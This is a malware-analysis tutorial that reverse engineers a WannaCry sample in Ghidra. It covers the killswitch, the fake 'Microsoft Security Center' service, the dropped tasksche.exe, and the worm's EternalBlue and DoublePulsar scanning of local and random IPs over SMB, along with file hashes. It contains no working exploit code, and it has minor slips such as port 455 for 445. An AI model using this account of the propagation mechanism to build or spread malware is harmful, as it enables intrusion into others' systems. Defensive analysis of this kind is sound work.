# Preparing the malware
---
First, we need a sample of WannaCry, which can be obtained from MalwareBazaar. The one that I will be reverse engineering has the hash `md5:db349b97c37d22f5ea1d1841e3c89eb4` .

<div align="center"></div>
The malware will be compressed with a password as an additional security measure. The password is in the same MalwareBazaar link from where we retrieved this sample; the password is "*infected*".
# Ghidra
## Creating our WannaCry Project in Ghidra
---
In `File > New Project...` or `CTRL+N`.

<div align="center"></div>

Now we will need to choose between `Non-Shared Project` or `Shared Project`; in our case we will be working on this project alone, so we will choose the `Non-Shared Project` and hit `Next >>`

<div align="center"></div>

Then we will assign a name to the project and click `Finish`.

<div align="center"></div>

Now, we can drag the malware directly to the project *Wannacry-Ghidra*.

<div align="center"></div>

For the Import setting we will leave them at default and we will click `OK`.

<div align="center"></div>

After the import, it will generate the results, informing that the exports were successful.

<div align="center"></div>
## Functions and Control Flow
---
### Setting-up Analysis
--- 
Now to start with the Statical Analysis we just need to click on the imported WannaCry sample at Ghidra.

<div align="center"></div>
The first time, it will say that the executable has not been analysed, so we will start the analysis by clicking `Yes.`

Now, for the analysis options, we need to additionally enable the `Decompiler Parameter ID` to make the code more readable and accurate by making Ghidra attempt to identify function parameters and their types during the decompilation phase of the binary code.

<div align="center"></div>

Also, it will be important to enable the `WindowsPE x86 Propagate External Parameters` option to recognize external library function calls on the Windows platform, such as the Windows API functions that will be very important throughout the entire analysis.

<div align="center"></div>
Now we will just click the `Analyze` button and start the decompilation to begin statically analysing the ransomware.
### Statical Analysis
--- 
#### General File Information
To check general information about the file, we will use the program [`Detect It Easy`](https://github.com/horsicq/Detect-It-Easy).

<div align="center"></div>
We will open the sample from the folder button.

<div align="center"></div>
At the bottom we can see in the scan section that it's a PE file for 32 bits, the packer is Microsoft Visual C++, and it indicates that the file has high entropy.

<div align="center"></div>

If we go to the entropy section, we will see that the entropy is high, and most of the executable is packed; 99% of the content is packed and has an entropy of `7.96426`.

<div align="center"></div>

Besides that, we can see in the file properties its size:

<div align="center"></div>

To get the file hashes, we can use the following commands from PowerShell:
> Get-FileHash -Path ".\24d004a104d4d54034dbcffc2a4b19a11f39008a575aa614ea04703480b1022c.exe" -Algorithm MD5
> Get-FileHash -Path ".\24d004a104d4d54034dbcffc2a4b19a11f39008a575aa614ea04703480b1022c.exe" -Algorithm SHA1
> Get-FileHash -Path ".\24d004a104d4d54034dbcffc2a4b19a11f39008a575aa614ea04703480b1022c.exe" -Algorithm SHA256
> Get-FileHash -Path ".\24d004a104d4d54034dbcffc2a4b19a11f39008a575aa614ea04703480b1022c.exe" -Algorithm SHA512

<div align="center"></div>

| Campo            | Valor                                                                                                                                                                                                                                                                                                                         |
| ---------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Name**         | 24d004a104d4d54034dbcffc2a4b19a11f39008a575aa614ea04703480b1022c.exe                                                                                                                                                                                                                                                          |
| **Hash**         | MD5: `DB349B97C37D22F5EA1D1841E3C89EB4`  <br>SHA1: `E889544AFF85FFAF8B0D0DA705105DEE7C97FE26`  <br>SHA256: `24D004A104D4D54034DBCFFC2A4B19A11F39008A575AA614EA04703480B1022C`  <br>SHA512: `D6C60B8F22F89CBD1262C0AA7AE240577A82002FB149E9127D4EDF775A25ABCDA4E585B6113E79AB4A24BB65F4280532529C2F06F7FFE4D5DB45C0CAF74FEA38` |
| **Type of file** | PE                                                                                                                                                                                                                                                                                                                            |
| **System**       | MS Windows                                                                                                                                                                                                                                                                                                                    |
| **Architecture** | 32 bits                                                                                                                                                                                                                                                                                                                       |
| **Size**         | 3.55 MB                                                                                                                                                                                                                                                                                                                       |
| **Packer**       | Microsoft Visual C++                                                                                                                                                                                                                                                                                                          |
| **Entropy**      | 7.96426                                                                                                                                                                                                                                                                                                                       |


#### Introduction
Now, if we open the functions, we will see all functions found in the decompilation for a total of 135.

<div align="center"></div>

#### Function entry
First, we have to start with the function [`entry`](https://learn.microsoft.com/en-us/cpp/build/reference/entry-entry-point-symbol?view=msvc-170), which is the first function called when the program is executed, which is the default entry code generated for Windows executables.

In the next image we can see, at the left side, the assembly code and, at the right, the decompiled code of the function `entry()`.

<div align="center"></div>

Where, at the end of the entry function, appears the call to the main function of the application, `wWinMain`, which is common for all Windows applications. Which we will rename to make the code more readable and as similar to the original source code as possible.

<div align="center"></div>

To edit this function, and the upcoming ones, we need right-click and choose the `Edit Function Signature` option.

<div align="center"></div>

Then we will substitute the Ghidra attempt to represent the original function with the `wWinMain` function we can find in the [`Microsoft Documentation`](https://learn.microsoft.com/en-gb/windows/win32/learnwin32/winmain--the-application-entry-point):

<div align="center"></div>

To apply the changes, press `TAB` or `RETURN` to commit the changes and click `OK` when you finish, after accepting the datatypes:

<div align="center"></div>
Now you will see the changes reflected:

<div align="center"></div>
#### Function wWinMain
We can see from `Window > Function Call Graph`, when selecting the entry function, all the calls done by this function, which illustrates why it's the first executed function, `entry()`.

<div align="center"></div>

The result of the graph is the function `entry()` calling thirteen other functions:

<div align="center"></div>

Now if you open `wWinMain()` by double-clicking, you will see that the rest of the functions are called from there, and we can continue to expand each function we see there. 

<div align="center"></div>

After expanding `wWinMain()` you can appreciate that there appears some interesting functions, like `InternetOpenA`, `InternetOpenUrlA`, and `InternetCloseHandle`, which, by the names, we can deduce are trying to get access to a website.

<div align="center"></div>

If we inspect closer, we can see directly in the decompiled code by Ghidra a suspicious URL, and it is trying to open it.

<div align="center"></div>

 About the two variables, one with a suspicious URL and another variable reserving a buffer size of 57 bytes, in the loop you can see that `14*4` bytes are being copied from the suspicious URL (`suspicious_url`), which means it is creating an exact copy, and a last byte copy `MOVSB` for the null terminator `\0`, which can be seen when selecting `*suspicious_url_copy = *suspicious_url`; it's decompilated from `MOVSB ES:suspicious_url_copy,suspicious_url`

<div align="center"></div>

After fixing up the decompiled code, renaming variables, and setting up the correct function, we will need to edit the function signature for [`InternetOpenA`](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopena), [`InternetOpenUrlA`](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopenurla), [`InternetCloseHandle`](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetclosehandle), which can be found in [`Microsoft Wininet.h functions`](https://learn.microsoft.com/en-us/windows/win32/api/_wininet/).

Take into consideration that sometimes you will need to create datatypes, as Ghidra doesn't recognise them by default, like `HINTERNET`, so you will need to create one type for HINTERNET in the malware datatypes, `(malware).exe` > `New` > `Typedef`. There we will define `HINTERNET` as a void pointer, because it's a handle that the API does not expose its structure to making the correct choice to be a void pointer.

<div align="center"></div>

Now, we will edit the function signature for each of the `Wininet.h` functions.

<div align="center"></div>


<div align="center"></div>


<div align="center"></div>

After tidying up the code, we can now start trying to understand the decompiled code. If we look at the if, we can see that we are comparing if the value returned by `InternetOpenUrlA` is null (zero); if it is, it couldn't connect with the URL. What it does mean is that if the weird URL is not found, a function is called, which will be the real entry function, because if the program establishes a connection with the suspicious URL, it will close the connection and the handle and instantly end the program. That's because it is using a killswitch mechanism, because the program is trying to evade any kind of sandbox that simulates whichever connection the WannaCry virus is trying to access, and if it actually gets a connection to a random URL, it will not continue its execution and end abruptly.

<div align="center"></div>
The workflow of the program until now looks like this:

<div align="center"></div>
#### Function real_entry
Now we will check the `real_entry` function, where at first sight we see some stack variables and a few Windows functions.

<div align="center"></div>

The Windows functions have the correct structure, as Ghidra structured them correctly: [`GetModuleFileNameA`](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulefilenamea), [`OpenSCManagerA`](https://learn.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-openscmanagera), [`OpenServiceA`](https://learn.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-openservicea), and [`CloseServiceHandle`](https://learn.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-closeservicehandle). But, we will rename some variables to make the code more readable.

The first Windows function, [`GetModuleFileNameA`](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulefilenamea), the documentation hints that it retrieves the executable file path, so the variable `lpFilename_0070f760` will be the variable where the path will be stored. Rename it to a clearer variable.

<div align="center"></div>

<div align="center"></div>

In the first if, it's checking if we retrieved one or fewer arguments in `argc`, where the first argument is for the program, so it will be true when you don't have arguments in `argc`. If it's true, it will call a function, which we can rename to `func_noargs`.

<div align="center"></div>

##### Function func_noargs
In `func_noargs()` there are two functions that are called, and after that it will return. We will enter the first function `FUN_00407c40()` to see what it does. Later we will check `FUN_00407ce0()`.

<div align="center"></div>
- Function create_service_executable (FUN_00407c40)
	In this function we can see four Windows functions that are in the correct format, automatically formatted by Ghidra, when checking up the function signature. The functions can be verified in the Microsoft Documentation.
	<div align="center"></div>
	If you check the first `sprintf`, we can see that we are using the executable_path variable we renamed before and storing it with additional parameters `-m security` (I will get something similar to `c:\Users\ANON\Desktop\Malware Samples\WannaCry Bueno\24d004a104d4d54034dbcffc2a4b19a11f39008a575aa614ea04703480b1022c.exe -m security`). We will rename the variable where it's being stored, `local_104`, to `executable_path_with_args` to have it identified.
	<div align="center"></div>
	In the rest of the function, we first establish a connection to the Service Control Manager (SCM), and if it's opened correctly (the handle is not zero), then we create a service with the `lpServiceName` of `mssesvc_2.0`, which is the real service name, and the `lpDisplayName` of `Microsoft Security Center (2.0)`, which will be the name that will be displayed in the user graphical interface.
	<div align="center"></div>
	After that, it checks if the service is successfully created, and if it was successful, it starts the service.
	<div align="center"></div>
	Then we will come back to the previous function `func_noargs()`, after renaming this function to `create_service_executable`. And go the next function `FUN_00407ce0()`.
	<div align="center"></div>
	- Function write_resource1831_tasksche (FUN_00407ce0)
	After getting a first inspection, the function is quite huge with many process address retrievals, variable declarations, and many predefined functions, which are actually well formatted thanks to Ghidra.
	<div align="center"></div>
	First we try to get a handle to [`kernel32.dll`](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-entry-point-function), which is a Dynamic Link Library in Windows Operating Systems that provides essential functionalities to interact with the operating system. If it succeeds, not equal to zero, it tries to load the process address of four functions. [`CreateProcessA`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa) to create a process, [`CreateFileA`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea) to create a file, [`WriteFile`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-writefile) to write in the file it will create, and [`CloseHandle`](https://learn.microsoft.com/en-us/windows/win32/api/handleapi/nf-handleapi-closehandle) to close the `kernel32.dll` handle. I will rename the variables to make it more clear.
	<div align="center"></div>
	Later we can see that after a successful load of the four functions, it tries to find a resource with the function [`FindResourceA`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-findresourcea), which, if we look at the parameters, the second one, `lpName`, which in reality is `MAKEINTRESOURCE`, looks for an ID, which, if we convert it to decimal we can see that it's trying to find the resource with the ID `1831`. 
	<div align="center"></div>
	Also, the `DAT_0043137c` indicates the resource is of type `R`. 
	<div align="center"></div>
	If the resource is found, we get the handle of the resource with [`LoadResource`](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadresource), lock it with [`LockResource`](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-lockresource) (which actually just gets the pointer to the memory containing the resource), and get the size in bytes of the resource with [`SizeofResource`](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-sizeofresource).
	<div align="center"></div>
	The following decompiled code seems to not be decompiled correctly by Ghidra, probably because its heuristic doesn't do well in this case. We can use great resources like [DogBolt](https://dogbolt.org) to decompile, which is a compilation of multiple open-source decompilers. But, if we compare the code with assembly, we can see that it's trying to set to zero a range of bits, of which `0x40` (64) is the amount of bytes that will be zeroed. The behaviour is similar to `memset(puVar6, 0, 0x40)`.
	<div align="center"></div>
	Now if we continue reading the code, we see two `sprintf` that are attempting to store a string with multiple parameters, for which at first glance we see only one parameter (besides the variable to store the string). The first `sprintf` should have two additional parameters, taskche.exe and the Windows strings. The second `sprintf` is missing an additional parameter, which is the string Windows (`%s` is a placeholder to be replaced by the rest of the parameters).
	<div align="center"></div>
	For the first `sprintf`, we will override the `signature`, adding two more parameters to make Ghidra automatically recognise the missing parameters.
	<div align="center"></div>
	<div align="center"></div>
	After changing it, we will see the changes reflected. The path saved will be `C:\WINDOWS\tasksche.exe`, so we will rename the variable to keep it identified. 
	<div align="center"></div>
	For the next `sprintf`, we will do the same, but now we just need to add one param. The path saved will be `C:\WINDOWS\qeriuwjhrf`.
	<div align="center"></div>
	And just in the next line we can see the function loaded from `kernel32.dll`, [`MoveFileExA`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-movefileexa), which has two parameters, which, based on the flag, `MOVEFILE_REPLACE_EXISTING`, will be renamed to `qeriuwjhrf` if `tasksche.exe` already exists.
	<div align="center"></div>
	A few lines down, we can see the previously loaded address of the function, `createFileA`, to be called as a function.
	<div align="center"></div>
	The problem is that it seems it is not taking the variable correctly, so you will need to select the data type manually to make it be recognised by Ghidra. So you will need to retype globally the data type to `createFileA` as a pointer to call the function properly.
	<div align="center"></div>
	<div align="center"></div>
	The result will be that we will be creating a file with `createFileA`, retrieving its handle.
	<div align="center"></div>
	If the creation of the handle is successful, the `writeFile` function will be called, which will save the content of the resource `1831` into `tasksche.exe` (specified in the opened handle), and later the function `closeHandle` will close the opened handle, for which we will need to repeat the procedure of retype global (`resource_1831_locks` has another name because it's bugged and says that `resource_1831_lock` exists, when it doesn't exist after accidentally reverting changes).
	<div align="center"></div>
	Now, there is a huge amount of code that is not easy to read.
	First we have a loop that is setting to zero 16 bytes (`0x10`) of `puVar6`.
	<div align="center"></div>
	Secondly, we have a variable with a big value, and also we load a pointer with data that if we clear the code bytes and make it a `TerminatedCString`, we see an interesting parameter, which is "` /i` ", that will be a parameter that makes a program silent. In the loop we go character by character, advancing the `mysterious_String` pointer one by one while getting each character, subtracting one from `mysterious_String_size` with each, until the null terminator appears, and later does a `NOT` operation with the big value, and after inverting the bits, we get the total size of the string.
	<div align="center"></div>
	<div align="center"></div>
	<div align="center"></div>
	<div align="center"></div>
	<div align="center"></div>
	For the next step, which is harder to see, now we go through the entire `tasksche` path string until reaching the null terminator, staying at this pointer. Next we replace `tasksche_paths_string` by the mysterious string (`aux_mysterious_String - mysterious_String_size` returns to the start of the mysterious string). Now it subtracts one in the pointer of `aux_tasksche_path_string` to substitute the null terminator. In the first loop for, the mysterious string that is now copied to `tasksche_path_string` is appended in a block of 4 bytes to the end of `aux_tasksche_path_string` (the actual `tasksche` path). And the second loop (`for`) is for the remaining bytes (3, 2 or 1 byte remaining), which copies byte by byte.
	<div align="center"></div>
	Now after appending the pointer data to the end of the `tasksche` path, the process is created with the added parameter "` \i`" that will execute the process silently with the [`CreateProcessA`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa) function, and it is especially interesting that one of the parameters that corresponds to `dwCreationFlags` also has the value `0x8000000` ([`CREATE_NO_WINDOW`](https://learn.microsoft.com/en-us/windows/win32/procthread/process-creation-flags)) that makes it run silently, without displaying any console. If the process is created successfully, then we close open handles.
	<div align="center"></div>

#### Function real_entry
Otherwise, if we had arguments, it will not enter the if to enter the `func_noargs()` and return; instead, it will try to open the Service Control Manager of Windows with [`OpenSCManagerA`](https://learn.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-openscmanagera) and will try to open the service `mssecsvc2.0`, and if if it succeeds, it will enter a function.

<div align="center"></div>
- function configure_service_failure (FUN_00407fa0)
	In this function we see a bunch of strange data, but if we check the [`ChangeserviceConfig2A Documentation`](https://learn.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-changeserviceconfig2a), the second parameter `dwInfoLevel` is `2`, which is `SERVICE_CONFIG_FAILURE_ACTIONS`, meaning the third parameter has to be of type `SERVICE_FAILURE_ACTIONS`. Changing the type of the variable will fix the function completely. Also, the second parameter of the whole function refers to seconds, because the variable `scact` is used for the delay multiplied by a thousand to get milliseconds, the required format.
	<div align="center"></div>
	Because the function configures the service `mssecsvc2.0` to restart automatically on failure after `seconds`, if `seconds != -1` to make the malware service more persistent, we will rename the function `configure_service_failure`.
	<div align="center"></div>

So after configuring the service, if a failure occurs, then it creates a `SERVICE_TABLE_ENRYA` with the service name `mssecsvc2.0` and pointer to the service's main function.

<div align="center"></div>
- LAB_00408000
	It points to an undefined function that registers and launches the malware as a Windows service named `mssecsvc2.0` with [`RegisterServiceCtrlHandlerA`](https://learn.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-registerservicectrlhandlera).
	<div align="center"></div>
	If we enter `FUN_00407bd0()`, we can see more, and there is also a sleep that lasts 24 hours to keep it alive.
	- function FUN_00407bd0
		This function executes if the function `FUN_00407b90()` doesn't return zero, which does some operations based on the filename to see if the conditions are doable. If it's different from zero, then it seeks concurrency by creating one thread for a specific routine `_StartAddress_00407720` and another 128 threads for another specific routine `_StartAddress_00407840` based on [`Microsoft Documentation`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/beginthread-beginthreadex?view=msvc-170).
		<div align="center"></div>
		- Routine \_StartAddress_00407720 (1 thread)
			The upcoming function features too much code and is not correctly decompiled, but we will be looking at `FUN_00409160()` and the thread that is created for each parameter that we retrieve from the function, which is the logical approach.
			<div align="center"></div>
			- function FUN_00409160
				This function, first, retrieves the adapter's information of the computer.
				<div align="center"></div>
				Then it retrieves, based on the operations, the IP address and the subnet mask, and then if they are valid, it retrieves the broadcast address and the network address.
				<div align="center"></div>
			- Routine StartAddress_004076b0
				We can see that it first checks with the result of the function `FUN_00407480()` if it satisfies a condition, entering another thread `_StartAddress_00407540`, and if fails, does nothing and ends that thread.
				<div align="center"></div>
				- function FUN_00407480
					Simple function that checks if it can establish a connection with a given IP. Based on [`Microsoft Documentation`](https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-socket), it creates a `sock_addr` with a `param_1` as the destination IP, with the port 445 (`SMB`) and with the socket function being the first parameter 2 (`IPv4`), the second parameter 1 (`SOCK_STREAM`) for bidirectional conversation, and as the third parameter 6 (`TCP`) that if it doesn't succeeds returns zero, and if it succeeds, a distinct number.
					<div align="center"></div>
				- Routine \_StartAddress_00407540
					If the IP was valid, it first copies the IP in ASCII and then calls a function with that IP and a second parameter, 455 (`SMB`).
					<div align="center"></div>
					- function FUN_00401980
						The function attempts to connect to `SMB` with `IPv4` with the given IP and the port 455.
						<div align="center"></div>
						Then it probes with different `SMB` payloads based on [`Microsoft Documentation`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-cifs/32b5d4b7-d90b-483f-ad6a-003fd110f0ec).
						<div align="center"></div>
						First tries with a normal `SMB` probe, because of what we can see at the buffer; also, the `0x72` value is the [`SMB_COM_NEGOTIATE`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-cifs/96ccc2bd-67ba-463a-bb73-fd6a9265199e) that will start establishing the SMB connection.
						<div align="center"></div>
						Later it probes again with the `0x73` value, which, is the [`SMB_COM_SESSION_SETUP_ANDX`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-cifs/d902407c-e73b-46f5-8f9e-a2de2b6085a2) that establishes the `SMB` connection.
						<div align="center"></div>
						After that it probes again with the `0x75` value that is the [`SMB_COM_TREE_CONNECT_ANDX`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-cifs/a105173a-d854-4950-be28-3d3240529ec3) and also has a placeholder that is substituting in order to do the Eternal Blue exploit. That is done by the `FUN_004017b0()`, which substitutes the buffer placeholder, making the probe attempt to access the [`IPC$`](https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/inter-process-communication-share-null-session) hidden shared resource in Windows.
						<div align="center"></div>
						<div align="center"></div>
						<div align="center"></div>
						- function FUN_004017b0
							The function changes the `USERID_PLACEHOLDER` and `TREEPATH_REPLACE` as it does multiple operations.
							<div align="center"></div>
							<div align="center"></div>
						The next probe directly confirms the exploit by using the value `0x25`, which is the [`SMB_COM_TRANSACTION`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-cifs/0ed1ad9f-ab96-4a7a-b94a-0915f3796781) that contains the `PeekNamedPipe` subcommand set to zero.
						<div align="center"></div>
						Then it checks if the `SMB` probe returns [`STATUS_INSUFF_SERVER_RESOURCES (0xC0000205)`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-cifs/2c9b7ac3-3dc8-4624-9ce4-80306c8c6d3a); that confirms that the machine is vulnerable to the EternalBlue exploit and returns `1`. If not or any of the previous steps fail, it will return `0`, not vulnerable.
						<div align="center"></div>
					Then if it's vulnerable, it executes the `FUN_00401b70()`, which also has the port 445.
					<div align="center"></div>
					- function FUN_00401b70:
						<div align="center"></div>
						It first establishes a connection through SMB protocol (port 445), where the first two buffers establish the connection with [`SMB_COM_NEGOTIATE`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-cifs/96ccc2bd-67ba-463a-bb73-fd6a9265199e) and [`SMB_COM_SESSION_SETUP_ANDX`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-cifs/d902407c-e73b-46f5-8f9e-a2de2b6085a2).
						The third buffer sent does [`SMB_COM_TREE_CONNECT_ANDX`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-cifs/a105173a-d854-4950-be28-3d3240529ec3), connecting to the `IPC$` shared resource. 
						<div align="center"></div>
						Then in the fourth buffer sent, it probes with the `0x32` value, that is [`SMB_COM_TRANSACTION2`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-cifs/3d9d8f3e-dc70-410d-a3fc-6f4a881e8cab), that will check if the machine is infected with the Double Pulsar backdoor, which was allegedly employed by the U.S. National Security Agency and released by the group of hackers ShadowBrokers, based on the info provided by [`Qualys`](https://threatprotect.qualys.com/2017/04/26/doublepulsar-backdoor-spreading-rapidly-in-the-wild/). The gimmick is that if the returned value of the Multiplex ID field is `0x41` for machines not infected with the Double Pulsar and `0x51` for the infected ones, which is the check we can see, then if everything went alright, it will make a final send of an executable through the buffer overflow done.
						<div align="center"></div>
						If we check the buffer, we will see that it has a huge amount of data with the signature `MZ`, which pertains to an executable, meaning it will infect the machine through the Double Pulsar backdoor.
						<div align="center"></div>
					So if it was successful, then it stops, but if not, then it continues to the next function, `FUN_00401370()`, with a bunch of unclear values.
					<div align="center"></div>
					- function FUN_00401370
						At this function we have an interesting function `FUN_00401d80()`,  which seems to load a massive amount of data, near to 4700 lines of code, into the variables to load a payload. First we see it's loading some `SMB` payloads to establish a connection.
						<div align="center"></div>
						Where the most interesting one seems to be the `SMB` payload with the `0x33` value that is [`SMB_COM_TRANSACTION2_SECONDARY`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-cifs/80207e03-6cd6-4bbe-863f-db52f4d2cb1a), to do the exploit if the Double Pulsar backdoor was not present.
						<div align="center"></div>
						Then we see at the global variable `DAT_0041bbb0` that it's a huge payload, doing some sort of operation (there are more suspicious Base64 payloads).
						<div align="center"></div>
						If we copy this payload and save it to a binary, we can analyse it further.
						Also, we will delete the empty data.
						<div align="center"></div>
						Then with that we will copy the text, which could be obfuscated code with Base64, and paste it in a file `weirdpayload.b64`; the part that looks like Base64 because, besides the first 2 bytes, the rest is a standard character of Base64.
						<div align="center"></div>
						Then if in CMD we execute the command `certutil -decode weirdpayload.b64 output.bin`, it will succeed:
						<div align="center"></div>
						Ghidra doesn't seem to understand this code, but if we use [`Dogbolt`](https://dogbolt.org/), a compilation of different decompilers, Binary Ninja seems to correctly interpret this binary, which doesn't seem to have anything relevant, besides seeing a function of type `regparm`.
						<div align="center"></div>
			So recapping the whole function, it retrieves multiple local addresses and tries to establish `SMB` connections with hosts in the local network, looking for vulnerable devices to the EternalBlue exploit, looking if it has the Double Pulsar backdoor, and sending an executable to continue infecting other devices, and if it doesn't have it, it exploits the EternalBlue by passing shellcodes in order to infect other devices.
		- Routine \_StartAddress_00407840 (128 threads)
			The first thing that the thread executes, which we can see at the start of the code, is that it sets the seed of `srand` with the addition of the values [`GetTickCount`](https://learn.microsoft.com/en-us/windows/win32/api/sysinfoapi/nf-sysinfoapi-gettickcount), the number of milliseconds that have elapsed since the system was started, [`GetCurrentThread`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-getcurrentthread), a pseudo-handle for the thread, [`GetCurrentThreadId`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-getcurrentthreadid), the ID of the thread, and [`time`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/time-time32-time64?view=msvc-170), the seconds elapsed since midnight, January 1 of 1970.
			<div align="center"></div>
			Then it creates random IPs, with the first octet being different from 127 (`localhost`) and smaller than `224` (`<=223` to not use private IPs as `class D` multicast `224-239` and `class E` experimental `240-255`), and each one of them gets a random value with the function `FUN_00407660()`, and by using `% 255`, it gets a value between `0` and `255`.
			<div align="center"></div>
			- function FUN_00407660
				Small function that makes clear by using [`CryptGenRandom`](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptgenrandom) that it generates a random value; if the first `if` didn't load a crypto provider, then it will generate a random value with `rand()`.
				<div align="center"></div>
			The random IP is created with `sprintf` and then checked with the function `FUN_00407480()`, which we have seen before, which checks if it's possible to connect to that IP.
			- function FUN_00407480
				<div align="center"></div>
			If it's possible to connect, then it changes the last octet by creating a new IP with `sprintf` and changing the last field, starting from `1` up to `254`. Checking again if each IP is valid, and if it's valid it enters the thread `_StartAddress_00407540` which was the same function as the standalone thread that attempted to infect other devices with EternalBlue and DoublePulsar backdoor using the same methodology.
			<div align="center"></div>
			- Routine \_StartAddress_00407540
				<div align="center"></div>
		So recapping the functionality of the `mssecsvc2.0` service with arguments, it attempts to infect other computers by creating one thread that attempts to infect devices from the local network and creating 128 threads that will attempt to infect devices from random global IP addresses, ignoring IPs starting with `127`, or `224` or higher.

So the instance of the `mssecsvc2.0` service with the `-m security` parameter will run another instance that will try to propagate through the LAN and WAN network, exploiting the EternalBlue vulnerability with the DoublePulsar backdoor or manually.
##### Resource 1831.bin (tasksche.exe) - Extracting binaries
Now that we're finished with the main code, we need to continue reverse engineering with other files created by the executable to understand how it works.

Everything we have analysed until now is reflected in the next workflow of WannaCry:

<div align="center"></div>

Now we can continue reverse engineering by extracting the resource 1831 in R using Resource Hacker which will extract the embedded resources.

After opening Resource Hacker, we will need to open the malware sample to start extracting the resources. 

<div align="center"></div>

<div align="center"></div>

After loading the sample in Resource Hacker, at first sight we can see the resource folder with the name R, the same one we commented on before with `findResourceA`. 

<div align="center"></div>

After expanding it, we see an identifier `1831 : 1033`, where the `1831` is the resource we were seeking, and `1033` is just the language code, `English (US)`.

<div align="center"></div>

If we click it, we can see its binary content, which at first sight the header of the file is an executable because of the message "`This program cannot be run in DOS mode.`".

<div align="center"></div>

Now, we will save this file as `R1831.bin` and continue analysing it with Ghidra.

<div align="center"></div>

<div align="center"></div>

**General File Information**
We open the resource `R1831.bin` in [`Detect It Easy`](https://github.com/horsicq/Detect-It-Easy).

<div align="center"></div>
At the bottom we can see in the scan section that it's a PE file for 32 bits, the packer is Microsoft Visual C++, and it indicates that it has a high entropy.

<div align="center"></div>

If we go to the entropy section, we will see that the entropy is high, and most of the executable is packed; 99% of the content is packed and has an entropy of `7.99547`.

<div align="center"></div>

Besides that, we can see the file properties showing its size:

<div align="center"></div>

To get the file hashes, we can use the following commands from PowerShell:
> Get-FileHash -Path ".\R1831.bin" -Algorithm MD5
> Get-FileHash -Path ".\R1831.bin" -Algorithm SHA1
> Get-FileHash -Path ".\R1831.bin" -Algorithm SHA256
> (Get-FileHash -Path ".\R1831.bin" -Algorithm SHA512).Hash

<div align="center"></div>

| Campo            | Valor                                                                                                                                                                                                                                                                                                                         |
| ---------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Name**         | R1831.bin                                                                                                                                                                                                                                                                                                                     |
| **Hash**         | MD5: `84C82835A5D21BBCF75A61706D8AB549`  <br>SHA1: `5FF465AFAABCBF0150D1A3AB2C2E74F3A4426467`  <br>SHA256: `ED01EBFBC9EB5BBEA545AF4D01BF5F1071661840480439C6E5BABE8E080E41AA`  <br>SHA512: `90723A50C20BA3643D625595FD6BE8DCF88D70FF7F4B4719A88F055D5B3149A4231018EA30D375171507A147E59F73478C0C27948590794554D031E7D54B7244` |
| **Type of file** | PE                                                                                                                                                                                                                                                                                                                            |
| **System**       | MS Windows                                                                                                                                                                                                                                                                                                                    |
| **Architecture** | 32 bits                                                                                                                                                                                                                                                                                                                       |
| **Size**         | 3.35 MB                                                                                                                                                                                                                                                                                                                       |
| **Packer**       | Microsoft Visual C++                                                                                                                                                                                                                                                                                                          |
| **Entropy**      | 7.99547                                                                                                                                                                                                                                                                                                                       |


